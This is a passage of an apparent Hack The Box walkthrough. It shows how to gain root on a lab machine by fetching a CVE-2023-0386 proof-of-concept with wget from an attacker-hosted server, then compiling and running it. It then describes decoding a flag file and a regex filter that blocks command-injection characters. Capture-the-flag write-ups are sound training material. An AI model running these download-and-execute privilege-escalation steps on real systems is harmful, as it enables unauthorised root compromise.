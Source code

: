 1.  **Download Exploit:**
    Download the proof-of-concept (POC) for CVE-2023-0386 from a reliable source (e.g., Exploit-DB, GitHub).

    ```bash
    wget http://<your_ip>:8000/CVE-2023-0386.tar.bz2
    # Ensure you are running a Python HTTP server on your attacker machine:
    # python3 -m http.server 8000
    ```

2.  **Extract and Compile:**

    ```bash
    tar xjf CVE-2023-0386.tar.bz2
    cd CVE-2023-0386
    make
    ```

      * Ensure `gcc` is available on the target system for compilation.

3.  **Execute Exploit:**
    Run the compiled exploit:

    ```bash
    ./exploit
    ```

    This should grant you a root shell.

4.  **Retrieve Root Flag:**

    ```bash
    cd /root
    cat root.txt
    ```

### Beyond Root (Analyzing `thankyou.json` and Regex)

The video also explores some "Beyond Root" steps:

1.  **Analyze `thankyou.json`:**
    In `/root`, there's a `thankyou.json` file.

    ```bash
    cat /root/thankyou.json | jq .
    ```

    The content is heavily encoded (URL-encoded, Hex-encoded, XOR-encrypted with key "hack the box", and Base64-encoded). Use CyberChef or similar tools to decode it.

2.  **Investigate `admin/vpn/generate` Code:**
    After gaining root, the presenter examines the PHP code for the `admin/vpn/generate` endpoint to understand why direct command injection via `username` during registration failed. They find that the `removeSpecialCharacters` function uses a regular expression to sanitize input, preventing common command injection characters like pipes (`|`), semicolons (`;`), and backticks (`` ` ``).